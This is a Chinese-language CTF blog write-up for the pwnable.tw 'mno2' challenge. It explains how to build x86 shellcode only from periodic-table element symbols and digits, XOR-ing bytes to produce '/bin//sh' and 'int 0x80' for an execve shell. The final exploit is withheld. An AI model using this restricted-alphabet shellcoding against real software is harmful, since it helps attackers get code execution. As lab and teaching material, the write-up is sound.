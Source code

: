 ```yaml
---
title: mno2
date: 2019-02-23 11:01:54
tags:
---
```

pwnable.tw mno2
<!--more-->
不附exp...


# mno2
...shellcode被玩坏了...
这题是用数字和元素周期表的内容写shellcode...
做的时候感觉有时候判定有问题...最好不要拿数字去充填...有时候会出错...
做完之后再也不想碰这题...
```python
ele=['\x48','\x48\x65','\x4C\x69','\x42\x65','\x42','\x43','\x4E','\x4F','\x46','\x4E\x65','\x4E\x61','\x4D\x67','\x41\x6C','\x53\x69','\x50','\x53','\x43\x6C','\x41\x72','\x4B','\x43\x61','\x53\x63','\x54\x69','\x56','\x43\x72','\x4D\x6E','\x46\x65','\x43\x6F','\x4E\x69','\x43\x75','\x5A\x6E','\x47\x61','\x47\x65','\x41\x73','\x53\x65','\x42\x72','\x4B\x72','\x52\x62','\x53\x72','\x59','\x5A\x72','\x4E\x62','\x4D\x6F','\x54\x63','\x52\x75','\x52\x68','\x50\x64','\x41\x67','\x43\x64','\x49\x6E','\x53\x6E','\x53\x62','\x54\x65','\x49','\x58\x65','\x43\x73','\x42\x61','\x4C\x61','\x43\x65','\x50\x72','\x4E\x64','\x50\x6D','\x53\x6D','\x45\x75','\x47\x64','\x54\x62','\x44\x79','\x48\x6F','\x45\x72','\x54\x6D','\x59\x62','\x4C\x75','\x48\x66','\x54\x61','\x57','\x52\x65','\x4F\x73','\x49\x72','\x50\x74','\x41\x75','\x48\x67','\x54\x6C','\x50\x62','\x42\x69','\x50\x6F','\x41\x74','\x52\x6E','\x46\x72','\x52\x61','\x41\x63','\x54\x68','\x50\x61','\x55','\x4E\x70','\x50\x75','\x41\x6D','\x43\x6D','\x42\x6B','\x43\x66','\x45\x73','\x46\x6D','\x4D\x64','\x4E\x6F','\x4C\x72','\x52\x66','\x44\x62','\x53\x67','\x42\x68','\x48\x73','\x4D\x74','\x44\x73','\x52\x67','\x43\x6E','\x46\x6C','\x4C\x76']
ele+=['1','2','3','4','5','6','7','8','9','0']
```
# 思路
* 寻找可用的元素..
* 凑/bin/sh
* 凑int 0x80


我是一个一个...试过去...数字组合当时没有想到..做得好辛苦i
```python
'''
[H]      dec eax			0x47
[He]	   would not be used
[B]      inc edx			0x42
[C]      inc ebx			0x43
[N]      dec esi			0x4e
[O]      dec edi			0x4f
[F]      inc esi			0x46
[Ne]	   would not be used
[P]      push eax			0x50			
[S]      push ebx			0x53
[K]      dec ebx			0x4a
[Fe]	   would not be used
[I]      dec ecx			0x48
[U]      push ebp			0x55
[Y]      pop ecx			0x59
[Ba]     inc edx;popa			0x4261
[V]      push esi			0x56
[W]      push edi			0x57
[Bhxxxx] inc edx;push bytes
[Phxxxx] push esp;push 4bytes

[XeFN]   pop eax;gs inc esi;dec esi
[PdFN]	 push eax;inc esi;dec esi
[GeFN]   inc edi;gs inc esi;dec esi
[TeFN]   push esp;gs inc esi;dec esi
[ReFN]   push edx;gs inc esi;dec esi
[Rfx]	 push edx;inc ?x;


[07]     xor BYTE PTR [edi],dh
[26]     xor dh,BYTE PTR [esi]
[30]     xor esi,DWORD PTR [eax]
[32]     xor esi,DWORD PTR [edx]
[38]     xor edi,DWORD PTR [eax]

['H', 'He', 'Be', 'B', 'C', 'N', 'O', 'F', 'Ne', 'P', 'S', 'K', 'V', 'Fe', 'Ge', 'Se', 'Y', 'Rh', 'Pd', 'Cd', 'Te', 'I', 'Xe', 'Ce', 'Nd', 'Gd', 'W', 'Re', 'Th', 'U', 'Md', 'Bh']
'''
```
# /bin/sh
如果我需要0x73的7我就需要n^n^7 or 6^3(6必须自己提供所以没办法1^2所以不行)只能 n^n^7
* 因为0x70是'p'所以只能由长度为2的元素的第二字节产生....发现还是有很多选择的
```
Ar,Cr,Cu,As,Br,Kr,Sr,Zr,Ru,Cs,Pr,Eu,Dy,Er,Lu,Os,Ir,Pt,Au,At,Fr,Np,Pu,Es,Lr,Hs,Mt,Ds,Lv
```
* 因为这二字节元素的第一字节要用来产生2f这就是突破点..和可以产生0x2f的大写字母集合交叉一下得到
```
Pr,Ru,Pt,Pu,Lv,Lu,Lr,Np,Fr,Hs,Br,Dy,Cu,Ds,Cs,Sr,Kr,Os,Es,Mt,Ir,As,Ar,Au,,Eu,Cr,Zr,Er
```
减少一种可能也是减少好吧...当我没说
我们随便选一个试试..
例如Os吧..
在一下几个组合中O可以xor两次获得0x2f
```
 {'0', 'O', 'P'},
 {'3', 'O', 'S'},
 {'2', 'O', 'R'},
 {'5', 'O', 'U'},
 {'4', 'O', 'T'},
 {'7', 'O', 'W'},
 {'6', 'O', 'V'},
 {'9', 'O', 'Y'},
```
选一个试试看看
例如A:`?sOO`,B:`??00`,C:`??PP`
再来看看`h`-->0x68
.....需要用到小写字母所以C,B的?部分是2字节元素
例如A:`?sOO`,B:`?B00`,C:`aBPP`（我选了Ba,因为B单独是一个元素感觉应该会简单点...）
```python
In [323]: chr(0x59)
Out[323]: 'Y'

In [324]: chr(0x50)
Out[324]: 'P'
```
泪流满面..被yi和磷拯救了...
所以A:`PsOO`,B:`YB00`,C:`aBPP`...试试看
```python
In [325]: b='YB00'

In [326]: a='PsOO'

In [327]: c='aBPP'

In [328]: for x in range(4):
    print(chr(ord(a[x])^ord(b[x])^ord(c[x])))
   .....:     
h
s
/
/
#ESI  0x68732f2f ('//sh')
```
然后去弄/bin
发现0x69,0x62,0x6e都不能由一字节长度的元素组成..直接拿B开头的元素来试
```python
Be
Br
Ba
Bi
Bk
Bh
```
一个字凑...
```
In [353]: hex(ord('i'))
Out[353]: '0x69'

In [354]: chr(0x57)
Out[354]: 'W'

In [355]: chr(0x50)
Out[355]: 'P'
```
A:`iB??`B:`W???`C:`P???`
第二字节如法炮制
`{'4', 'B', 'Y'}`
A:`iBI4`B:`WiBY`C:`PBiB`
....得到/bin/sh的我眼泪也掉下来..
```
─────────────────────────────────────────────────────────────────────[ REGISTERS ]─────────────────────────────────────────────────────────────────────
 EAX  0xff9b8530 ◂— 0x50426942 ('BiBP')
 EBX  0x0
 ECX  0x0
 EDX  0x804892e ◂— add    byte ptr [ebx + 0x65], al
 EDI  0x6e69622f ('/bin')
 ESI  0x68732f2f ('//sh')
 EBP  0xff9b8588 ◂— 0x0
 ESP  0xff9b8530 ◂— 0x50426942 ('BiBP')
 EIP  0x324f6ede ◂— push   esi /* 0x65545756; 'VWTeFNVVVVBa' */
```
坐到后面发现我们只能用popal来使得ebx--->/bin/sh
所以我研究了一下pop all的顺序
```python
EDI
ESI
EBP
?
EBX-->xxxx-->/bin/sh
EDX-->0
ECX-->0
EAX-->0xb
```
这个在弄完/bin/sh时压好最方便...//惨痛的教训


# int 0x80
这个也需要凑..
因为我们有
```python
[26]     xor dh,BYTE PTR [esi]
[07]     xor BYTE PTR [edi],dh
```
所以我们先set esi edi=0方法同第一次
```asm
push esi
dec eax
dec eax
dec eax
dec eax
xor esi,DWORD PTR [eax]
```
然后set esi edi 为我们可以控制的地方例如0x324f6f43...
然后我们利用`26`,`07`...
所以我们又开始凑
A:0x?? B:0x?? C:0x88
目标是A^B^C==0xcd和0x80
因为第二个字节受前一个字节的约束所以我们先弄第二个字节
## 0x80
0x80比较简单AB只要凑出8就可以了
我们可以随便选择像是
```python
In [452]: chr(0x43)
Out[452]: 'C'

In [453]: chr(0x4b)
Out[453]: 'K'

In [454]: hex(0x4b^0x43)
Out[454]: '0x8'
```
A:0x4b B:0x43 C:0xCa

## 0xcd
也就是我们要凑0x6
发现更简单...
随便选个S^U


# exp
```
--
```

做了2天...内牛满面.........
```python
In [527]: f**k
```
